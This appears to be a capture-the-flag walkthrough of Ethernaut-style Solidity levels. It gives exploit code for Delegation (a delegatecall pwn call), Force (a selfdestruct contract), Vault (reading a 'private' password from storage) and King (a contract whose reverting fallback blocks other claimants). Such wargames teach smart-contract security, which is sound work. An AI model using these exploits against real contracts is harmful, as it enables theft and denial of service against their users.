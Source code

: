 ===> submit level

### Delegation
console<br>
```
contract.sendTransaction({data: web3.utils.sha3("pwn()")})
```

===> Submit level

### Force
`ForceAttack.sol`
```
pragma solidity ^0.4.26;

contract ForceAttack {
    constructor() public payable{
    }

    function attack(address _a) public {
        selfdestruct(_a);
    }
}
```
Deploy `ForceAttack.sol` with params:<br>
- value: 1 wei

Execute `attack` button with `contract.address` on console window

===> Submit level


### Vault
console
```
let pwd;
await web3.eth.getStorageAt(contract.address, 1, (e,r)=>{pwd=r;})
await web3.utils.toAscii(pwd)
await contract.unlock(pwd)
await contract.locked()
```
===> Submit level

### King
`AttackKing.sol`
```
pragma solidity ^0.4.26;

contract AttackKing {
    constructor(address a) public payable{
        address(a).call.value(msg.value)();
    }

    function() external payable{
        revert('You lose!');
    }
}
```
